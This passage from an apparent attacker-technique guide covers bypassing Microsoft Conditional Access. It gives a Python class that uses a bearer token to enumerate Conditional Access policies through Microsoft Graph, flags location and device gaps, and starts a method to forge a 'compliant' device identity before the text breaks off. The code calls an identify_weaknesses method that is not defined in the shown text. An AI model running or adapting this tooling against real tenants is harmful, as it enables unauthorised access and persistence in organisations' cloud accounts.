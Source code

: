 ### Conditional Access Bypass

Sophisticated attackers target Conditional Access policies to maintain persistent access across supply chain compromises.

#### Device Compliance Bypass

```python
class ConditionalAccessBypass:
    def __init__(self, access_token):
        self.access_token = access_token
        self.graph_url = "https://graph.microsoft.com/v1.0"

    def enumerate_ca_policies(self):
        """Enumerate Conditional Access policies"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        ca_url = f"{self.graph_url}/identity/conditionalAccess/policies"
        response = requests.get(ca_url, headers=headers)
        policies = response.json().get('value', [])

        vulnerable_policies = []

        for policy in policies:
            if self.analyze_policy_weaknesses(policy):
                vulnerable_policies.append({
                    'id': policy.get('id'),
                    'displayName': policy.get('displayName'),
                    'state': policy.get('state'),
                    'conditions': policy.get('conditions'),
                    'grantControls': policy.get('grantControls'),
                    'weaknesses': self.identify_weaknesses(policy)
                })

        return vulnerable_policies

    def analyze_policy_weaknesses(self, policy):
        """Analyze CA policy for potential bypass opportunities"""
        weaknesses = []
        conditions = policy.get('conditions', {})

        # Check for weak location conditions
        locations = conditions.get('locations', {})
        if locations.get('includeLocations') == ['All'] and not locations.get('excludeLocations'):
            weaknesses.append('No location restrictions')

        # Check for weak device conditions
        devices = conditions.get('devices', {})
        if not devices.get('includeDevices') or 'All' in devices.get('includeDevices', []):
            weaknesses.append('No device restrictions')

        # Check for application scope
        applications = conditions.get('applications', {})
        if 'All' in applications.get('includeApplications', []):
            weaknesses.append('Applies to all applications')

        return len(weaknesses) > 0

    def create_compliant_device_identity(self):
        """Create fake compliant device identity"""
        device_registration = {
```